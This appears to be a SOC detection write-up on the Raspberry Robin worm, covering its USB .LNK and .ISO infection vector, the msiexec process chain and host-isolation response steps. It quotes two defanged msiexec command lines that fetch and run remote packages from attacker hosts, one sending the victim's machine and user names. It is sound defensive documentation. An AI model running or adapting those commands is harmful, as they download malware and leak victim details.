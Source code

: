 # **.LNK or .ISO embedding Malicious Commands from Raspberry Robin Campaign**

<h2> Introduction </h2>
This certain detection is specific to the Raspberry Robin Campaign. The infection consists of an intelligent worm that propagates over removable USB devices containing malicious a .LNK file and leverages compromised QNAP network-attached storage (NAS) devices for command-and-control. It was first documented by researchers from Red Canary in May 2022. There has been much public debate about whether the Raspberry Robin drives use autoruns to launch or if it relies purely on social engineering to encourage users to click the LNK file. In other scenarios, phishing emails containing .ISO files have been used to load this infection, but mainly shortcut files (.LNK) embedded with malicious command line code have been the primary vector. Shortcut files are typically used to quickly access a program or folder from your personal computer desktop and .ISO files (Optical disk images) are perfect representations of an entire CD, DVD, or BD which are capable of unwanted program installations.

The full attack chain can be found in the image below:

![image](https://github.com/jake-44/Knowledge-Base/assets/72994837/201d5ccd-8d39-435a-a995-2fd37cc264ad)

Before diving into any indicators of compromise and tactics, techniques and procedures, please visit the sites below if you require any additional explanation of the threat actors involved or background into the Raspberry Robin Campaign:

- https://www.microsoft.com/en-us/security/blog/2022/10/27/raspberry-robin-worm-part-of-larger-ecosystem-facilitating-pre-ransomware-activity/
- https://thehackernews.com/2022/07/researchers-warn-of-raspberry-robins.html

<h2> IOCs and TTPs </h2>
Now that we understand the origins of this malicious activity and the functionality of the file types which carry the embedded code, we can start to breakdown the attack chain into identifiable parts. 

**[SOC specific watchlist description and detection tuning as well as SOC specific investigation procedures, redacted for security purposes]**

![image](https://github.com/jake-44/Knowledge-Base/assets/72994837/8b357a93-0e1a-4693-b29b-f3edc2296f1d)

The command spawning from the original detection should replicate the above image and be spawning similar commands. As the normal installation proceeds, the msiexec.exe command listed above creates another msiexec.exe /V process, launched from services.exe. This second msiexec.exe /V process then spawns a third msiexec.exe process, which loads a malicious module named msi[...].tmp and is the malware stage downloaded from its parent msiexec.exe /V process.

**msIEXeC -Q/i ""htTP[]//6y.RE:8080/5CBniie70Rw/[Machine name]=[Victim username]"** <br>
**mSIExEC /Q -I"hTTP[]//u0.pm:8080/80wOpGuotSU/USER-PC?admin"**

If not done so already, once this activity is observed, **IMMEDIATELY** isolate the host in question. This is guaranteed to be confirmed malicious activity and the proper recommendation is to escalate this alert to our forensics team and the appropriate Team Lead within the SOC. The client should be notified immediately after isolation and asked to provide any recent USB activity conducted or phishing attempts identified by the user. 


<h2> References </h2>
- https://www.cybereason.com/blog/threat-alert-raspberry-robin-worm-abuses-windows-installer-and-qnap-devices
- https://redcanary.com/blog/raspberry-robin/
- https://attack.mitre.org/techniques/T1204/002/

